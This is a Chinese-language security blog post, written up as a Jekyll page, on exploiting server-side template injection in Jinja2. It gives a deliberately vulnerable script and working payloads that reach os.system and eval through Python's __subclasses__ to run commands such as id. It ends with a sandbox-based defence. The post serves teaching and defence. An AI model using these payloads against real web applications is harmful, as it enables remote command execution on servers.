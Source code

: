 ```yaml
---
layout: post
title: "利用 Python 特性在 Jinja2 模板中执行任意代码"
tags: [web, security, ssti]
---
```


本文源于老外 [@nvisium](https://twitter.com/nvisium) 在其博客发表的博文 [《Injecting Flask》](https://nvisium.com/blog/2015/12/07/injecting-flask/)，在原文中作者讲解了 Python 模板引擎 [Jinja2](http://jinja.pocoo.org/) 在服务端模板注入 (SSTI) 中的具体利用方法，在能够控制模板内容时利用环境变量中已注册的用户自定义函数进行恶意调用或利用渲染进行 XSS 等。

对于 Jinja2 模板引擎是否能够在 SSTI 的情况下直接执行命令原文并没有做出说明，并且在 Jinja2 官方文档中也有说明，模板中并不能够直接执行任意 Python 代码，这样看来在 Jinja2 中直接控制模板内容来执行 Python 代码或者命令似乎不太可能。

### 一、模板中复杂的代码执行方式

最近在进行项目开发时无意中注意到 Jinja2 模板中可以访问一些 Python 内置变量，如 `[]` `{}` 等，并且能够使用 Python 变量类型中的一些函数，示例代码一如下：

```python
# coding: utf-8
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
print template.render()
```

为了方便演示，这里直接将命令参数输入拼接为模板内容的一部分并进行渲染输出，这里我们直接输入 `{% raw %}{{ 'abcd' }}{% endraw %}` 使模板直接渲染字符串变量：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/1.png)

当然上面说了可以在模板中直接调用变量实例的函数，如字符串变量中的 `upper()` 函数将其字符串转换为全大写形式：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/2.png)

那么如何在 Jinja2 的模板中执行 Python 代码呢？如官方的说法是需要在模板环境中注册函数才能在模板中进行调用，例如想要在模板中直接调用内置模块 `os`，即需要在模板环境中对其注册，示例代码二如下：

```python
# coding: utf-8
import os
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
template.globals['os'] = os

print template.render()
```

执行代码，并传入参数 `{% raw %}{{ os.popen('echo Hello RCE').read() }}{% endraw %}`，因为在模板环境中已经注册了 `os` 变量为 Python `os` 模块，所以可以直接调用模块函数来执行系统命令，这里执行额系统命令为 `echo Hello Command Exection`：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/3.png)

如果使用示例代码一来执行，会得到 `os` 未定义的异常错误：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/4.png)

### 二、利用 Python 特性直接执行任意代码

那么，如何在未注册 `os` 模块的情况下在模板中调用 `popen()` 函数执行系统命令呢？前面已经说了，在 Jinja2 中模板能够访问 Python 中的内置变量并且可以调用对应变量类型下的方法，这一特点让我联想到了常见的 Python 沙盒环境逃逸方法，如 2014CSAW-CTF 中的一道 Python 沙盒绕过题目，环境代码如下：

```python
#!/usr/bin/env python 
from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [  
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()  
targets.remove('raw_input')  
targets.remove('print')  
for x in targets:  
    del __builtins__.__dict__[x]

while 1:  
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```

（利用 Python 特性绕过沙盒限制的详细讲解请参考 [Writeup](https://hexplo.it/escaping-the-csawctf-python-sandbox/)），这里给出笔者改进后的 PoC：

```python
[c for c in [].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('echo Hello SandBox')
```

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/5.png)

当然通过这种方式不仅仅能够通过 `os` 模块来执行系统命令，还能进行文件读写等操作，具体的代码请自行构造。

回到如何在 Jinja2 模板中直接执行代码的问题上，因为模板中能够访问 Python 内置的变量和变量方法，并且还能通过 Jinja2 的模板语法去遍历变量，因此可以构造出如下模板 Payload 来达到和上面 PoC 一样的效果：

{% raw %}
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{ c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
{% endif %}
{% endfor %}
```
{% endraw %}

使用该 Payload 作为示例代码二的执行参数，最终会执行系统命令 `id`：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/6.png)

当然除了遍历找到 `os` 模块外，还能直接找回 `eval` 函数并进行调用，这样就能够调用复杂的 Python 代码。

原始的 Python PoC 代码如下：

```python
[a for a in [b for b in [c for c in [].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals.values() if type(b) == dict] if 'eval' in a.keys()][0]['eval']('__import__("os").popen("whoami").read()')
```

在 Jinja2 中模板 Payload 如下：

```
{% raw %}
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.func_globals.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
{% endraw %}
```

使用该 Payload 作为示例代码二的执行参数（注意引号转义），成功执行会使用 `eval()` 函数动态载入 `os` 模块并执行命令：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/7.png)

### 三、利用途径和防御方法

SSTI（服务端模板注入）。通过 SSTI 控制 Web 应用渲染模板（基于 Jinja2）内容，可以轻易的进行远程代码（命令）执行。当然了，一切的前提都是模板内容可控，虽然这种场景并不常见，但难免会有程序员疏忽会有特殊的需求会让用户控制模板的一些内容。

在 Jinja2 模板中防止利用 Python 特性执行任意代码，可以使用 Jinja2 自带的沙盒环境 `jinja2.sandbox.SandboxedEnvironment`，Jinja2 默认沙盒环境在解析模板内容时会检查所操作的变量属性，对于未注册的变量属性访问都会抛出错误。

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/8.png)

### 参考

* [https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
* [https://nvisium.com/blog/2015/12/07/injecting-flask/](https://nvisium.com/blog/2015/12/07/injecting-flask/)
* [https://hexplo.it/escaping-the-csawctf-python-sandbox/](https://hexplo.it/escaping-the-csawctf-python-sandbox/)
